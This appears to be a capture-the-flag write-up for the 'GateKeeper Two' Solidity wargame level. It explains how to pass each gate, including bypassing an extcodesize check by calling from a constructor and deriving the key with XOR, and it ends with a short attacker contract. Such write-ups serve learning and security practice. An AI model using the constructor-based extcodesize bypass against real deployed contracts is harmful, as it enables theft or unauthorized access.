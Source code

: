 [14 - GateKeeper Two]

Solution (implemented using forge as well): 
FirstGate: 
* have another contract call enter 

SecondGate:
* secondGate uses the ```extcodesize``` yul instruction, which only returns 0 if caller ia not a smart contract
* from gateOne, caller should be smart contract
* the only way in which ```extcodesize``` would return 0 if caller was a smart contract is if the call happened in the smart contract's constructor

GateThree:
```
require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max)
```
We have A ^ B = C, and we need to find out B.
Xor both sides by A, to the left => A ^ A ^ B = A ^ C
A ^ A = 0; 0 ^ X = X => A ^ A ^ B = 0 ^ B = B = A ^ C
_gateKey = bytes8(keccak256(abi.encodePacked(msg.sender))) ^ bytes8(type(uint64).max)

Result:
```
contract GatekeeperTwoHack {
    constructor(address gatekeeperTwoAddress) {
        uint64 gateKey = uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(bytes8(type(uint64).max));

        GatekeeperTwo(gatekeeperTwoAddress).enter(bytes8(gateKey));
    }
}
```
